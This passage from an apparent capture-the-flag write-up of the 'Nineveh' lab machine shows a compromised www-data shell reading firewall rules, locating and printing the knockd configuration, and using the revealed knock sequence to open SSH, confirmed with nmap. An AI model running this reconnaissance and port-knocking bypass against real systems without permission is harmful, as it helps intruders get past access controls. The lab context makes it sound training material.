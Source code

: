 Port 22 is openning in the server, but iptables allow only port 80 and 443.

```
www-data@nineveh:/tmp$ cat /etc/iptables/rules.v4
<snip>
-A INPUT -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 443 -j ACCEPT
-A INPUT -j DROP
COMMIT
# Completed on Sun Jul  2 19:37:15 2017
```

Using command `find` to find knockd file config.

```
www-data@nineveh:/etc$ find / -name *knockd* 2>/dev/null
find / -name *knockd* 2>/dev/null
/etc/knockd.conf
```

```
www-data@nineveh:/etc$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

Let's knock number of port to make iptables allow port 22.

```
┌──(Hades㉿10.10.14.5)-[2.6:24.9]~
└─$ knock 10.10.10.43 571 290 911
```

Using `nmap` checking port 22 is open.

```
┌──(Hades㉿10.10.14.5)-[2.6:25.8]~
└─$ nmap -p 22 10.10.10.43                          
<snip>

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.63 seconds
```
